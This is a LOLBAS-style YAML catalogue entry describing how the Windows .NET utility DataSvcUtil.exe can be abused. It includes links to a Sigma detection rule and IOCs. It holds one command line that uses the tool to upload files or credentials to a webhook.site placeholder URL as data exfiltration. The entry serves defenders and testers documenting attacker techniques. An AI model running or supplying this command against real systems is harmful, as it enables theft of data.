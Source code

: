 ```yaml
---
Name: DataSvcUtil.exe
Description: DataSvcUtil.exe is a command-line tool provided by WCF Data Services that consumes an Open Data Protocol (OData) feed and generates the client data service classes that are needed to access a data service from a .NET Framework client application.
Author: 'Ialle Teixeira'
Created: 2020-12-01
Commands:
  - Command: DataSvcUtil /out:C:\Windows\System32\calc.exe /uri:https://webhook.site/xxxxxxxxx?encodedfile
    Description: Upload file, credentials or data exfiltration in general
    Usecase: Upload file
    Category: Upload
    Privileges: User
    MitreID: T1567
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework64\v3.5\DataSvcUtil.exe
Code_Sample:
  - Code: https://gist.github.com/teixeira0xfffff/837e5bfed0d1b0a29a7cb1e5dbdd9ca6
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_lolbin_data_exfiltration_by_using_datasvcutil.yml
  - IOC: The DataSvcUtil.exe tool is installed in the .NET Framework directory.
  - IOC: Preventing/Detecting DataSvcUtil with non-RFC1918 addresses by Network IPS/IDS.
  - IOC: Monitor process creation for non-SYSTEM and non-LOCAL SERVICE accounts launching DataSvcUtil.
Resources:
  - Link: https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/wcf-data-service-client-utility-datasvcutil-exe
  - Link: https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/generating-the-data-service-client-library-wcf-data-services
  - Link: https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/how-to-add-a-data-service-reference-wcf-data-services
Acknowledgement:
  - Person: Ialle Teixeira
    Handle: '@NtSetDefault'
---
```

